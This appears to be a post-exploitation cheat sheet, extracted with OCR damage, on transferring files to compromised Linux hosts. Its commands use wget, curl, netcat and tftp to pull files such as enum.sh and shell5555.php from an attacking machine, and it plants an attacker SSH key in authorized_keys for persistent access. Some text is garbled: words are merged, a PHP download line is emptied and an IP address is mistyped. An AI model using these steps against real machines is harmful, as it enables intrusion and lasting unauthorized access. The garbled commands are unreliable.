 Transferring Files on Linux 

Transferring Files on Linux 
Set Up a Simple Python Webserver

For the examples usingcurlandwgetwe need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command,available on port 9999.

python -m SimpleHTTPServer 9999


Wget

You can download files usingwgetlike this:

wget 192.168.1.102:9999/file.txt


Curl

curl -O http://192.168.0.101/file.txt




Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't doctr-cbecause that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

nc -lvp 4444 < file

On target machine:

nc 192.168.1.102 4444 > file

You can of course also do it the risky way, the other way around:

So on the victim-machine we runnclike this:



```
nc -lvp 3333 > enum.sh

```


And on the attacking machine we send the file like this:


```

nc 192.168.1.103 < enum.sh
```



I have sometimes received this error:



```
This is nc from the netcat-openbsd package. An alternative nc is available

```


I have just run this command instead:



```
nc -l 1234 > file.sh
```





With php



```
echo "" > down2.php
```





Ftp



```
If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode,otherwise the binary will become corrupted!!!
```





Tftp

On some rare machine we do not have access toncandwget, orcurl. But we might have access totftp. Some versions oftftpare run interactively, like this:

$ tftp 192.168.0.101 tftp> get myfile.txt

If we can't run it interactively, for whatever reason, we can do this trick:

tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
SSH - SCP

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Whichmight give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the/home/userdirectory you can find the hidden.sshfiles by typingls -la. Then you need to do two things.

    Create a new keypair

You do that with:

ssh-keygen -t rsa -C "your_email@example.com"

then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey Enter passphrase (empty for no passphrase): Enter same passphrase again:

This will create twofiles, one callednameOfMyKeyand another callednameOfMyKey_pub. The one with the_pubis of course your public key. And the other key is your private.

    Add your public key to authorized_keys.

Now you copy the content ofnameOfMyKey_pub. On the compromisedmachine you go to~/.sshand then run add the public key to the file authorized_keys. Like this

echo"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..."> authorized_keys

    Log in.

Now you should be all set to log in using your private key. Like this

ssh -i nameOfMyKey kim@192.168.1.103
SCP

Now we can copy files to a machine usingscp
Copy a file: scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext # Copy a directory: scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination

